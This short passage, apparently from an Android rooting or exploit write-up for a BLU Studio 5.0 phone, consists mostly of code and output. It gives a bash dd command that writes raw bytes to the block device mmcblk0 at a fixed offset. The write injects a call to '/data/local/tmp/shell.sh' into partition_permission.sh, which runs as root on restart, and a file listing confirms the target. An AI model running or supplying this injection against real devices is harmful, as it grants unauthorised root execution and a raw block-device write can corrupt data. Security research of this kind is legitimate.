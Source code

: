 ```
#!/bin/bash
dd if=/data/local/tmp/yay/inject of=/dev/block/mmcblk0 seek=252239890 bs=1 conv=notrunc
```

Which will inject “/data/local/tmp/shell.sh #” into the script `partition_permission.sh`, which is run by root on restart;

```
root@BLU STUDIO 5.0 C:/ # ls -l /system/etc/partition_permission.sh
-rwxr-x--- root root 676 2014-07-28 03:12 partition_permission.sh
```
